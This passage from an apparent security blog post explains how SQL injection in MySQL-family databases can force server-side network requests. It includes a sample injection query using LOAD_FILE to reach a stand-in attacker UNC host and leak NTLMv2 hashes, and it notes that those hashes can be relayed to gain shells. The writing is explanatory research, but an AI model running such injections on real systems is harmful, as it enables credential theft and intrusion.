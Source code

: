 > The techniques mentioned in this post can be used via a SQL Injection through a web/network app or by directly connecting to a database server using a client, as only the relevant database functions and approaches are covered. Creating queries or subqueries that will work through an injection point is left to the reader as these are very contextual.

## MySQL/MariaDB/Percona

<a href="https://www.percona.com/blog/2017/11/02/mysql-vs-mariadb-reality-check/" target="_blank" rel="noopener noreferrer">Although different in a lot of ways when it comes to licensing, protocols and security</a>, all three support common functions/techniques that can be used to make server side requests.

### Using LOAD_FILE/LOAD DATA/LOAD XML

Every SQL Out of Band data exfiltration article will use the `LOAD_FILE()` string function to make a network request. The function itself has its own limitations based on the operating system it is run on and the settings with which the database was started.

For example, if the `secure_file_priv` global variable was not set, the <a href="https://dev.mysql.com/doc/mysql-installation-excerpt/5.7/en/linux-installation-rpm.html"  target="_blank" rel="noopener noreferrer">default value is set to `/var/lib/mysql-files/`</a>, which means that you can only use functions like `LOAD_FILE('filename')` or `LOAD DATA [LOCAL] INFILE 'filename' INTO TABLE tablename` to read files from the `/var/lib/mysql-files/` directory. To be able to perform reads on files outside this directory, the `secure_file_priv` option has to be set to `""` which can only be done by updating the database configuration file or by passing the `--secure_file_priv=""` as a startup parameter to the database service.

![](/img/using-sql-injection-to-perform-ssrf-xspa-attacks/2.png)

Nevertheless, under circumstances where `secure_file_priv` is set to `""`, we should be able to read other files on the system, assuming file read perms and `file_priv` is set to `Y` in `mysql.user` for current database user. However, being able to use these functions to make network calls is very operating system dependent. As these functions are built only to read files, the only network relevant calls that can be made are to UNC paths on Windows hosts as the <a href="https://docs.microsoft.com/en-gb/windows/win32/fileio/naming-a-file" target="_blank" rel="noopener noreferrer">Windows `CreateFileA` api that is called when accessing a file understands UNC naming conventions</a>.

So if your target database is running on a Windows machine the injection query `x'; SELECT LOAD_FILE('\\\\attackerserver.example.com\\a.txt'); -- //` would <a href="https://packetstormsecurity.com/files/140832/MySQL-OOB-Hacking.html" target="_blank" rel="noopener noreferrer">result in the Windows machine sending out NTLMv2 hashes in an attempt to authenticate with the attacker controlled `\\attackerserver.example.com`</a>.

This Server Side Request Forgery, although useful, is restricted to only TCP port 445. You cannot control the port number, but can read information from shares setup with full read privs. Also, as has been shown with older research, you can use this limited SSRF capability to steal hashes and relay them to get shells, so it's definitely useful.

![](/img/using-sql-injection-to-perform-ssrf-xspa-attacks/3.png)


### Using User Defined Functions
